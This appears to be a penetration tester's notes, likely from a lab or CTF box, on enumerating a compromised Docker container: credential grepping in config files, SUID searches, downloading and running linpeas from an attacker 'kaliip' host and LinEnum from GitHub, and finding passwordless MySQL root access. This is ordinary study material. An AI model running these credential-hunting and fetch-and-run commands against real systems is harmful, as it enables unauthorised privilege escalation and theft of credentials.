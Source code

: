 -  initial access to Docker 
    - whoami : I'm web service but docker, because 
    - `hostname` - docker's name 
    - `/.dockerenv` 

anyway, in docker, to go to host, 
1. escape docker or 
2. host creds ssh etc. 

- just basic manual information gathering(enumeration) ok, but not too much spending time no

    - e.g.  
    - network
        - `netstat -ano`  : X
        - `ss -ntpl`

    - running process
        - `ps faux`
        - `ps -ef` 

    - mysql creds? > conf? or php source code? 
        - `grep . -ri passw* *.conf` or
        - `grep /etc/mysql/ -ri passw*`


    - SUID
        - `find / -type f -perm -4000 2>/dev/null` : no interesting
        - `find / -type f -perm 777 2>/dev/null` : X

    - `sudo -l`

    - SSH key 
    - ...etc


    - *.conf (mysql or http or ) > creds info
        - `find ./ -name *.conf`


    - notice that mysql is running in localhost. +  mysql's initial creds is basically root:x 


- early automatic tools(linpeas / linenum) rather than manual assessment

#### linpeas
 
Kali -> Host
```
wget http://kaliip/linpeas.sh
sh linpeas.sh | tee linpeas.output

created date
date > Fri Jul 12 06:55:23 UTC 2024
```
- not working.> linenum
    - copy raw file > wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh 
    - sh ./LinEnum.sh 

- found out local only MySQL - root: try?
```
grep -i mysql linenum.output
or
linenum | grep -ri mysql
[+] We can connect to the local MYSQL service as 'root' and without a password! 
```
- maybe root:x possible

